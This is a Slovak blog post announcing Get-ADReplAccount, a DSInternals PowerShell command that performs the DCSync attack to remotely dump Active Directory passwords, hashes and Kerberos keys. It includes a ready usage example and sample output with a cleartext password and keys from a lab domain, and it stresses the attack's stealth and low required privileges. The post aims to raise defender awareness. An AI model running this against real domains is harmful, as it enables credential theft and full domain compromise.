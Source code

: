 ﻿---
ref: retrieving-active-directory-passwords-remotely
title: 'Vykrádanie hesiel z&nbsp;Active Directory na&nbsp;diaľku'
date: 2015-08-03T20:35:52+00:00
layout: post
lang: sk
permalink: /sk/vykradanie-hesiel-z-active-directory-na-dialku/
tags:
    - 'Active Directory'
    - PowerShell
    - Prednášky
    - Security
---

Predstavujem Vám príkaz **Get-ADReplAccount**, najnovší prírastok do&nbsp;môjho [PowerShell modulu DSInternals](/sk/projekty/), ktorý umožňuje z&nbsp;doménových kontrolérov na&nbsp;diaľku získať plaintextové heslá, hashe hesiel a&nbsp;Kerberos kľúče všetkých používateľov. Toho dosahuje tým, že simuluje chovanie príkazu **dcromo** a&nbsp;cez&nbsp;protokol [MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) si&nbsp;vytvorí repliku všetkých dát v&nbsp;Active Directory databáze. Podľa mojich informácií sa&nbsp;jedná o&nbsp;jediný verejne dostupný nástroj svojho druhu na&nbsp;svete. Ďalej má tieto vlastnosti:

- Ku svojej činnosti nevyžaduje ani práva doménového správcu. Bohate si&nbsp;vystačí s&nbsp;oprávnením **Replicating Directory Changes All**, ktoré má napríklad DirSync, Cisco WAAS či&nbsp;zle nakonfigurovaný SharePoint.
- Otvára dvere dokorán ďalším útokom, ako sú pass-the-hash, pass-the-ticket či&nbsp;PAC spoofing, pomocou ktorých je&nbsp;útočník schopný dostať pod&nbsp;kontrolu celý Active Directory forest. Takéto útoky zvláda napríklad nástroj [mimikatz](https://blog.gentilkiwi.com/mimikatz).
- Nedá sa&nbsp;zablokovať pomocou firewallu, pretože by&nbsp;to&nbsp;základnú funkčnosť Active Directory.
- V&nbsp;logoch na&nbsp;doménovom radiči zanecháva len&nbsp;minimálnu stopu, ktorú prehliadne väčšina bezpečnostných auditov.
- Nezneužíva žiadnu bezpečnostnú zraniteľnosť, ktorá by&nbsp;sa&nbsp;dala jednoducho opraviť v&nbsp;rámci aktualizácie systému.
- Jeho použitie nevyžaduje žiadne špeciálne vedomosti či&nbsp;prípravu. Útočníkovi stačí základná znalosť Active Directory.

Príklad použitia:

```powershell
Import-Module DSInternals
$cred = Get-Credential
Get-ADReplAccount -SamAccountName April -Domain Adatum -Server LON-DC1 `
-Credential $cred -Protocol TCP
```

<!--more-->

Ukážkový výstup:

```
DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-1375
Guid: 124ae098-699b-4450-a47a-314a29cc90ea
SamAccountName: April
SamAccountType: User
UserPrincipalName: April@adatum.com
PrimaryGroupId: 513
SidHistory: 
Enabled: True
Deleted: False
LastLogon: 
DisplayName: April Reagan
GivenName: April
Surname: Reagan
Description: 
NTHash: 92937945b518814341de3f726500d4ff
LMHash: 727e3576618fa1754a3b108f3fa6cb6d
NTHashHistory: 
  Hash 01: 92937945b518814341de3f726500d4ff
  Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
  Hash 03: 402bc59d8a00641b7f386e78596340f4
LMHashHistory: 
  Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
  Hash 02: 5a5503d0e85f58abaad3b435b51404ee
  Hash 03: f9393d97e7a1873caad3b435b51404ee
SupplementalCredentials:
  ClearText: Pa$$w0rd
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
    OldCredentials:
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
    Salt: ADATUM.COMApril
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: a72c8bc96c4a6f03244f0b0067a1e440
        Iterations: 4096
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 034b512ec64286dec951d6aff8d81fa8
        Iterations: 4096
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
        Iterations: 4096
    OlderCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 29d536ec057f9063747161429b81f056
        Iterations: 4096
      DES_CBC_MD5
        Key: 58f1cbe6e50e1f83
        Iterations: 4096
    ServiceCredentials:
    Salt: ADATUM.COMApril
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 02: c993da396914645b356ae7816251fcb1
    Hash 03: 6b58530cab34de91189a603e22c2be15
    Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 05: 5a762cf59fa31023dcba1ebd4725b443
    Hash 06: c78bac91c0ba25cae5d44460fd65a73b
    Hash 07: 59d73cea16afd1aac6bf8acfa2768621
    Hash 08: d2be383db9469a39736d9e2136054131
    Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
    Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
    Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
    Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
    Hash 13: e899e577d5f81ef5288ab67de07fad9a
    Hash 14: 135452ab86d40c3d47ca849646d5e176
    Hash 15: a84c367eaa334d0a4cb98e36da011e0f
    Hash 16: 61a458eb70440b1a92639452f0c2c948
    Hash 17: 238f4059776c3575be534afb46be4ccf
    Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
    Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
    Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
    Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
    Hash 22: f1685383b0c131035ae264ee5bd24a8d
    Hash 23: 3119e42886b01cad00347e72d0cee594
    Hash 24: ebef7f2c730e17ded8cba1ed20122602
    Hash 25: 7d99673c9895e0b9c484e430578ee78e
    Hash 26: e1e20982753c6a1140c1a8241b23b9ea
    Hash 27: e5ec1c63e0e549e49cda218bc3752051
    Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
    Hash 29: 84010d657e6b58ce233fae2bd7644222
```

Potenciál tohoto&nbsp;útoku (inak nazývaného DCSync) je&nbsp;teda veľký a&nbsp;mal by&nbsp;si&nbsp;toho byť minimálne vedomý každý manažér bezpečnosti a&nbsp;správca Active Directory.
